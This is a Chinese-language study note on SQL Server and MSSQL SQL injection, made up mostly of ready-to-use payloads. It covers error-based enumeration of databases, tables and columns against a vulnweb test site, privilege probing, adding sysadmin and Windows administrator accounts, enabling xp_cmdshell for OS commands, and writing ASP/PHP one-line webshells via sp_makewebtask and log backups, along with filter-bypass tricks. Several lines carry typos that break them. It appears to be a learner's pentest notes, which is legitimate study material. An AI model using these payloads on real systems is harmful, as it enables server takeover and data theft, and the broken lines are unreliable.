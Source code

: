 #### sqlserver数据库介绍及操作

默认端口1433；

创建一个数据库，默认创建在路径中web.mdf;

任务，分离，删除链接，然后把创建的文件在默认路径中删掉就可以了；



1. 基础的查询语句：增删改查

   ` select * from table`

2. 数据库权限

   sa、db、public权限

   sa权利很大，db相当于普通票哪个用户，public相当于windows的guest用户；

#### 连接调用sqlserver数据库

调用数据库的代码，一般写在配置文件里面config, conn；

``` vbscript
<%
    set conn = server.createobject("adodb.connecton")
    conn.open "provider=sqloledb;source=local;uid=sa;pwd=***;database=database-name"
 %>
```

可能在的目录：==inc==/conn.asp，config.asp，web.config

#### sqlserver注入

判断是否有注入

```sql
1. 判断是否有注入  (会有变化)
and 1=1
and 1=2
/
-0
/*判断注入的方法是一样的*/

2. 初步判断是否是mssql
and user>0

3. 判断数据库系统
and (select count(*) from sysobjects)>0    /*mssql的系统表*/
and (select count(*) from msysobjects)>0   /*access的系统表*/

4. 注入参数是字符
and 

10. 测试权限结构   返回正常的话，就是对应的权限
and 1=(select IS_SRVROLEMEMBER('sysadmin'));--
and 1=(select IS_SRROLEMEMEMBER('serveradmin'));--
and 1=(select IS_SRROLEMEMEMBER('setupadmin'));--
and 1=(select IS_SRROLEMEMEMBER('securityadmin'));--
and 1=(select IS_SRROLEMEMEMBER('diskadmin'));--
and 1=(select IS_SRROLEMEMEMBER('bulkadmin'));--
adn 1=(select IS_MEMBER('db_owner'));--

11. 添加mssql和系统账户
exec master.dbo.sp_addlogin username;--
exec master.dbo.sp_password null, username,password;--
exec master.dbo.sp_addsrvrolemember sysadmin username;--
exec master.dbo.xp_cmdshell username;--
.....

```

- 手工判断注入

  `http://testasp.vulnweb.com/showforum.asp?id=0 '` 

- 获取数据库信息

  `id=1 and 1=(select @@version)  # 因为后面的查询结果是字符类型，转换失败，就爆出错误了`

  `id=@@version   # 等价` 

- 获取当前数据库名称

  `id=1 and 1=(select db_name())  # 也是由于类型不匹配`

- 获取第一个用户数据库

  `and 1=(select top 1 name from master..sysdatabases where dbid>4)`

  *获取从上往下数的第一行的name属性*

  - 判断接下来的数据库:

  `and 1=(select top 1 name from master..sysdatabases where dbid>5)` or

  `and 1=(select top 1 name from master..sysdatabases where dbid>4 and name<>'web')`

  会爆出错误：将nvarchar值'bookmis'转换为int类型时失败

  - ==非常牛逼的一个方法==

  `and 1=(select name from master..sysdatabases for xml path) # 把所有的数据库名按照xml列出`

- 获取第一张表

  `?id=1 and 1=(select top 1 name from sysobjects where xtype='u') #原理就是mssql报错信息`

- 获取表readers的列

  `?id=1 and 1=(select top 1 name from syscolumns where id=(select id from sysobjects where name='readers'))`

- 获取表的数据

  `?id=1 and 1=(select top 1 Reader_id from readers)`

有过滤，如何绕过？

​	比如大小写转换，%0a、+、/**/代替空格； *+ 为什么可以代替空格？*


> 那如果前端做的比较好，不显示报错信息呢？
> syscolumns、sysdatabases 、sysobjects 具体代表了什么？
>  - sysdatabases和数据库信息有关，它的name表示所有的数据库，dbid列是他们的顺序，也是标识符
>  - sysobjects和数据库中的表的信息有关，name是表名，xtype='u'表示用户表，id是表的标识符
>  - syscolumns和表的列属性有关，name是列名，可以通过表的id来选择所属的表。


#### sqlserver另类玩法
#### 

- 利用mssql扩展存储注入攻击

  ``` sql
  1. 检测与恢复扩展存储
  /*判断xp_cmdhshell扩展存储是否存在*/
  and 1=(select name from master.dbo.sysobjects where xtype='x' and name='xp_cmdshell')
  
  /*判断xp_regread扩展存储过程是否存在*/
  and 1=(select count(*) from master.dbo.sysobjects where name='xp_regread')
  
  /*恢复*/
  exec sp_configure 'show advanced options',1,reconfigure;exec sp_configure 'xp_cmdshell',1;reconfigure;
  exec sp_dropexetendedproc xp_cmdshell, 'xplog70.dll'
  
  2. sa权限下扩展存储攻击 利用方法
  /*安装完插件之后；利用xp_cmdshell扩展，执行任意命令*/
  /*查看C盘*/
  drop table black
  create table black(dire varchar(7996) NULL, id int not null identity(1,1))
  insert into black exec master..xp_cmdshell 'dir C:\' ;
  and 1=(select top 1 dire from black where id=1);
  
  /*新建windows用户*/
  exec master..xp_cmdshell 'net user test test /add'
  exec master..xp_cmdshell 'net localgroup administrators test /add'
  /*添加和删除一个SA权限的而用户test*/
  exec master.dbo.sp_addlogin test,password
  exec master.dbo.sap_addsrvrolemember test,sysadmin
  /*停掉或激活开个服务（need sa）*/
  exec master..xp_servicecontrol 'stop','schedule'
  exec master..xp_servicecontrol 'start','schedule'
  
  /*创建之后登陆，利用远程桌面，连接服务器（打开3389）*/
  
  /*开启远程数据库*/
  select * from OPENROWSET('SQLOLEDB','server=servername;uid=sa;pwd=_123', 
  'select * from table1')
  
  ```

  如果防火墙只允许我访问80，可以把80改成别的，但是会影响原来的呀；——端口转发or源控码

- 利用sp_makewebtask写入一句话木马

  要知道绝对路径，否则写不进去

  `;exec sp_makewebtask 'e:\www_iis\yjh.asp','select''%3C%25%65%76%61%6C%20%72%65%71%75%65%73%74%28%22%63%68%6F%70%70%65%72%22%29%25%3E'''--`

- 写入一句话木马

  找到web目录后，即可写入一句话木马(dbo权限)

  ``` sql
  ;alter database news set RECOVERY FULL 
  ;create table test(str image)-- 
  ;backup log news to disk='c:\test' with init-- 
  ;insert into test(str)values ('<%excute(request("cmd"))%>')-- 
  ;backup log news to disk='c:\inetpub\wwwroot\yjh.asp'-- 
  ;alter database news RECOVERY simple
  ```
   [扩展参考](https://www.cnblogs.com/shanmao/archive/2012/11/15/2770878.html)

> 端口转发
>
> 一句话木马是什么
>
> ​		 最直白的形式：把<%execute(request("value"))%>插入	到网页里。
>
> 一句话木马能干嘛
>
> ​	- 似乎是执行远程的value值，这个值是命令
>
> 一句话木马怎么写
>
> ​	- <%execute(request("value"))%>， <?php @eval($_POST[value]);?>

#### sqlserver差异备份、完全备份、权限入侵


